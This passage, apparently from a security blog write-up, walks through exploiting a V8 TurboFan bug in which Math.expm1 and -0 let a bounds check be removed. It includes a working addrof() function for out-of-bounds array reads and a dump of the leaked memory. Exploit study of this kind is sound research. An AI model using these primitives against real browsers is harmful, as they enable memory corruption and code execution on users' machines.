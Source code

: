 - As mentioned in the blog, we need to retain the `sameValue` node until the final optimization, folding it to `true`. This means the compiler shouldn't be aware that we're comparing with `-0` until the very last optimization step.  

- In escape analysis, we can replace -0 with `Object.is()`, and during simplified lowering, we achieve the desired range value, allowing us to remove the bounds check. The `assumed` return type becomes false, ensuring that it will always remain within the array limits.  

> #79: CheckBounds[VectorSlotPair(INVALID)] (#125:NumberMultiply, #58:NumberConstant, #45:Checkpoint, #43:Call)  [Static type: Range(0, 4), Feedback type: Range(0, 0)]  

![idekde](/images/math_expm_bug/image-10.png)  

## OOB Array Creation:
- By exploiting out-of-bounds (OOB) array access, we can leak the addresses of objects by keeping them close to a float array. After much trial and error, along with extensive monkey patching, I finally discovered a more effective method for achieving a memory leak.

```javascript
function addrof(x, i = 1) {
    let a = [1.1, 2.2, 3.3];
    let b = [5.5, 5.5, 5.5, 5.5, 5.5];
    let o = { m: -0 };
    let t = Object.is(Math.expm1(x), o.m) + 0;
    t *= (i + 0); // Convert i to an integral type.
    let val = a[t];
    oob_rw_buffer = b;
    return val;
}
```

- Here, `a` is the array from which we want to access out-of-bounds values, while `b` is the array where we intend to manipulate the length field.  

- **Tricky Part:** The parameter `i` has an ambiguous type, so I added `0` to it to ensure it is treated as an integral type. This adjustment, along with the feedback, enables the OOB read. Silly JavaScript engine!  

- Finally, I'm storing the context of `b` in the `oob_rw_buffer`. Below is a rough illustration of the leak following the adjustment to the fixed array `a`.

**Leaks of the current state:**
```
3) int: 0x7a7e2501459
4) int: 0x500000000
5) int: 0x4016000000000000
6) int: 0x4016000000000000
7) int: 0x4016000000000000
8) int: 0x4016000000000000
9) int: 0x4016000000000000
10) int: 0x375928582cf9    - (map of b)
11) int: 0x7a7e2500c21     - (property of b)
12) int: 0x65ad13cc1c9     - (element backing pointer of b)
13) int: 0x500000000       - (length field)
14) int: 0x7a7e2500561
15) int: 0x8000000000000000
16) int: 0x3ff199999999999a
17) int: 0x3ff199999999999a
18) int: 0x3ff199999999999a
19) int: 0x3ff199999999999a
```
